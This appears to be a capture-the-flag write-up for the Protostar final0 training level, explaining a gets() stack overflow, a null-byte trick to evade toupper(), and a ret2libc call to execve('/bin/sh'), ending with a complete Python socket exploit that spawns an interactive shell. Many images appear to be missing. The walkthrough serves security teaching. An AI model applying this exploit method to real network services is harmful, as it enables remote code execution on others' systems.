









# Analysis

* We are given with the below source code:

    

* Lets try to run this:

    

* As you can see, the network set up is the same like from the previous challenges. 
    
    - When we connect to this server through port 2995, <span style="color:red">*get_username*</span> is called. 
    
    - In here, it has a buffer of length 512 all set to 0. 
    
    - After that, it calls <span style="color:red">*gets*</span> to read the user input to this buffer. And as we know, gets is vulnerable, so we can perform a buffer overflow here.
    
    - Then it check if there is a new line or carriage return and if so, would overwrite with 0. 
    
    - After that is a loop, which will go over the buffer and call <span style="color:red">*toupper()*</span> on every character. 
    
    - Then it returns.

* This means that we can overwrite the return pointer of this function and redirect code execution. 

* The overall objective is simple - think back the our Stack5 exercise. We will need to overflow our buffer, overwrite the return address of <span style="color:red">*get_username*</span>, and return into our buffer (or after the overwritten return address) which will contain some shellcode. However, we have to do all of this "remotely" using sockets.

# Exploit

* But there is 1 problem, when it calls <span style="color:red">*toupper()*</span>, we have to make sure that our shellcode and addresses are not affected. One way to do this is somehow stop the <span style="color:red">*toupper()*</span>'s execution right before our shellcode.

* So, <span style="color:red">*toupper()*</span> is called on every characters of <span style="color:red">*buffer*</span> via the <span style="color:red">*strlen*</span>. But how does <span style="color:red">*strlen*</span> work? Well, it counts all bytes until it finds a null byte. So if we somehow manage to place a null byte right before our shellcode, we won.

* If you check the man page of <span style="color:red">*gets*</span>, you will see that it reads everything until a newline or EOF (end of file):

    

* This means <span style="color:red">*gets*</span> will have no issue of reading a null byte. Okay now lets do a buffer overflow.

* We will print "a"*510 + "\x00" + "aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkk" into <span style="color:red">*final0*</span>.

    

    - "\x00" is a null byte

    - "aaaabbbb..." is a typical alphabet so we can use to recognize how to overflow the instruction pointer. We want to make it lower case to proof that it will not be transform to upper case when it calls <span style="color:red">*touper()*</span>.

* Notice how we dont see the "No such user..." after it calls <span style="color:red">*get_username()*</span>? The code shows that it would call <span style="color:red">*printf()*</span> to print this after the return in main.

    

    - So, we can assume that we successfully overwrote the instruction pointer and crash the program. 

* Okay, now, at the main page of <span style="color:red">*protostar*</span>, there's a section called <span style="color:red">*CORE FILES*</span>. It says that the filename pattern is set to /tmp/... This means that core dumps are stored in /tmp. When we have a look at the content of /tmp, we will see a core file we just produce:

    

    - So, what is core file?

        

    - Sweet, we can use this to debug and thus choose the right shellcode.

    - Also, this belong to root, so lets switch to root.

* Let me do some recap:

    - We overflow the EIP on the stack, which results in a segmetation fault.

    - The process doesn't handle the signal triggered by this, and it is killed by the kernel.

    - At the same time, a core dump file is created to save the state of the process that caused this signal.

* Lets open this in GDB: 

    

* Notice how when we call it in GDB, it receives a SEG FAULT, but not if we run it directly? That is because this process creates a fork, a new process to handle the client. And we always stay in the parent.

    - When we call <span style="color:red">*strace*</span> to trace the running process, we can see that it calls <span style="color:red">*clone()*</span>:

        

    - And if you check the man page of <span style="color:red">*clone*</span>, we will see that it is similar to <span style="color:red">*fork*</span>:

        

* As you can see, the instruction pointer was at 0x67666666 ("fffg"). That's the character which overwrote the instruction pointer. So lets update our exploit script:

    

    - We add "\n" at the end so that <span style="color:red">*gets*</span> stop reading input.

    - Theoretically, at this point, we should have succeeded with the exploit. So we could send a couple more commands and use <span style="color:red">*recv*</span> to get the response of that.

* Okay, how do we get the shell? We can take the stack address and insert some NOP and finally the shellcode into the string we used to overflow. But the program might use ASLR, so we'll use <span style="color:red">*ret2libc*</span>. 

* Lets start by looking for a list of functions in libc. We will look for them in the global offset table (because we may encounter ASLR so the good strategy is to make use of GOT). And I found this:

    

    - <span style="color:red">*execve*</span> can be used to execute other programs like bin/sh. 
    
    - So we will add the address of this function to our script:

        

* Now we have to figure out how to prepare the stack in order to correctly call <span style="color:red">*execve*</span>. I will use this simple program to see what we're missing: (0, 0 means that there are no arguments or env variables)

```
void main() {
    execve("bin/sh", 0, 0);
}
```

* Okay it runs fine:

    

* Load this in GDB, set a breakpoint at <span style="color:red">*main*</span> and single step forward until we are in exit:

    

    - Now lets see what the stack looks like when we return into <span style="color:red">*execve*</span>:

        

    - The first value (0x080483e9) is the return pointer where we return to after <span style="color:red">*execve*</span> is done. But we don't really care where it would return to because <span style="color:red">*execve*</span> executes another program and never returns any way.

    - So we can just place here some dummy bytes:

        

    - The next value (0x080484b0) is the address of the string "/bin/sh". We can look for this string in libc and place it in our shellcode:

        

* Now we need to know where libc is loaded to. Lets look at the memory map of <span style="color:red">*final0*</span>:

    

* Lets copy all these addresses to our exploit script:

    

    - The last 2 parameters are 0s.

* Lets test this out. Use GDB to attach through a process, set the follow for run to children, disassembly the <span style="color:red">*get_username*</span> and set a breakpoint at the return. 

    - Now execute the exploit. As you can see, we hit the break point. Single step forward and we should return to <span style="color:red">*execve*</span>:

        

    - The first value is "AAAA", which match in our exploit:

        

    - The value after that is "/bin/sh":

        

    - After that is our null bytes.

* When we execute it without debugging in GDB, we can see the output of the first command (the "id" one):

    

* So lets <span style="color:red">*recv*</span> twice to get the output of both commands:

    

* Now run it:

    

* There's a trick to make this easier (without having to write every command in the exploit script):

```
import struct, socket, telnetlib


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 2995))

padding = "a"*510+"\x00"+"aaaabbbbccccddddeeeef"
execve = struct.pack("I", 0x08048c0c)
binsh = struct.pack("I", 1176511 + 0xb7e97000)
exploit = padding + execve + "AAAA" + binsh + "\x00" * 8


s.send(exploit+"\n")

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

* The results:

    

* For more information: https://www.youtube.com/watch?v=HAN8Qun26cQ&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=36

# The bugs:

* This level has a vulnerable in the <span style="color:red">*gets*</span> function. We can use that to write our exploit to call /bin/sh.


